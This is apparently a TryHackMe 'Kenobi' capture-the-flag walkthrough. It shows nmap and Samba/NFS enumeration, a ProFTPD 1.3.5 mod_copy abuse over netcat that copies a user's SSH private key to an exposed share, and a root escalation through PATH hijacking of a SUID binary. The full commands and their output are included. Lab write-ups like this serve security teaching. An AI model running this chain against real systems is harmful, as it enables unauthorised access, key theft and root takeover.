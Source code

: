 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Metasploit](https://img.shields.io/badge/Needed-Metasploit-orange)](https://www.metasploit.com/)
[![Needed-Netcat](https://img.shields.io/badge/Needed-Netcat-lightgreen)](https://nc110.sourceforge.io/)

# Kenobi

## Reconnaissance
As always we start by scanning the target:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -sV 10.10.182.22
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-29 20:51 CET
Nmap scan report for 10.10.182.22
Host is up (0.057s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploring Samba shares
We can see several open ports, and between them we can notice two Samba ports: 139 (old version built on top of NetBIOS) and 445 (newer version, built on top of TCP).<br>
We can enumerate the shares with a nmap script:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.182.22                                                                                                         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-29 21:05 CET
Nmap scan report for 10.10.182.22
Host is up (0.048s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.182.22\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.182.22\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.182.22\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

Fortunately `/anonymous` share in Samba is often without password, so we can connect to it and explore what's on it with:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/3-Kenobi]
└─$ smbclient //10.10.134.213/anonymous                                                
Enter WORKGROUP\marco's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep  4 12:49:09 2019
  ..                                  D        0  Wed Sep  4 12:56:07 2019
  log.txt                             N    12237  Wed Sep  4 12:49:09 2019

                9204224 blocks of size 1024. 6877092 blocks available
```

Then we can download the share recursively with the command `smbget -R smb://10.10.134.213/anonymous`. In the end we can read on our pc the log file, some information about the FTP server.

### Exploring RPC
Another suspicious port is port 111, which hosts RPC. RPC is often used to share a filesystem, so we should enumerate its access to filesystem:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/3-Kenobi]
└─$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.134.213               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-30 19:46 CET
Nmap scan report for 10.10.134.213
Host is up (0.050s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *
```

The report shows a mount `/var`.

## Access to ProFtpd
On port 21 the client ftp is ProFtpd 1.3.5, which is (surpringly) vulnerable! We can search for an exploit with `searchsploit`:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ searchsploit ProFtpd 1.3.5
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                             | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                   | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                               | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                             | linux/remote/36742.txt
-------------------------------------------------------------------------------------- ---------------------------------
```

Searching the File Copy we will find out that in ProFtpd 1.3.x the copy module will let us call functions `CPFR` (copy from) and `CPTO` (copy to) even without logging in. With this permissions, since we have an open SSH port, we can copy id_rsa into /var share, so we can access it. We can connect with netcat and send this commands:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ nc 10.10.137.24 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.137.24]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Now we can mount this remote share on our pc with the commands:
```
mkdir /mnt/kenobiNFS
mount $TARGET_IP:/var /mnt/kenobiNFS
```

We paste the `id_rsa` file to `~/.ssh/` directory (we can put it elsewhere too, but .ssh has surely the right directory permissions).
We use the command `chmod 600 id_rsa` to set the right permissions to the file.<br>
We can log now with `ssh -i ~/.ssh/is_rsa kenobi@TARGET_IP` and get the flag `user.txt` in the home.

## Privilege escalation
Now that we have a shell we have to find a way to escalate to root, so the first thing we do is to search for SUID executables. In the list we find some usual linux command, but then we notice `/usr/bin/menu`.<br>
Searching with strings we can see that the commands called by menu are called without the absolute path. We can create a `/bin/sh` copy named "curl" in `/tmp` and modify `$PATH`:
```
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# whoami
root
```

Now we have root access and we can get the root flag in `/root/root.txt`